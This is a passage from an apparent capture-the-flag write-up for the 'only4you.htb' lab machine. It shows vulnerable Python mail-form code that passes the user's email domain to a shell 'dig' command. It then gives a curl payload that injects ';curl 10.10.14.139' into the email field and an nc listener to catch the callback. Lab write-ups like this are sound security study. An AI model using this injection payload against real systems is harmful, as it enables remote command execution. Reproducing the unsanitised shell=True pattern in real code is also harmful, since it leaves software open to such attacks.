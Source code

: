 ```python
                                ipaddresses.pop(0)
                                for i in ipaddresses:
                                        ips.append(i)
                        else:
                                return 1
                for i in ips:
                        if ip == i:
                                return 2
                        elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
                                return 2
                        else:
                                return 1

def sendmessage(email, subject, message, ip):
        status = issecure(email, ip)
        if status == 2:
                msg = EmailMessage()
                msg['From'] = f'{email}'
                msg['To'] = 'info@only4you.htb'
                msg['Subject'] = f'{subject}'
                msg['Message'] = f'{message}'

                smtp = smtplib.SMTP(host='localhost', port=25)
                smtp.send_message(msg)
                smtp.quit()
                return status
        elif status == 1:
                return status
        else:
                return status
```

## Foothold
### Command Injection vulnerability in message form

Within `issecure`, the re.match follows a rather complex regex. To get a more thorough understanding as to what is passing or failing, the simplest approach is to use a [regex matcher](https://regex101.com/)

![](Images/regex1.png)
We can see we need a string of letters or numbers (one `.- or _` allowed), followed by a `@`, another string of letters or numbers, followed by a `.`, then at least 2 more letters to pass. The next interesting component is the operations `domain` and `result`. Our query is split by the `@` symbol, and the second field is run through a dig:
```python
domain = email.split("@", 1)[1]
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```
Since the regex is  not performing any filtering, we can add whatever we want following our valid `asdf@asf.com`, and this will enter the dig command. Using this, we can abuse command injections:
```
$ curl http://only4you.htb/ -d "email=asdf@asdf.com;%20curl%2010.10.14.139&subject=&message="
```
Meanwhile on my listener:
```
$ nc -nvlp 80                    
```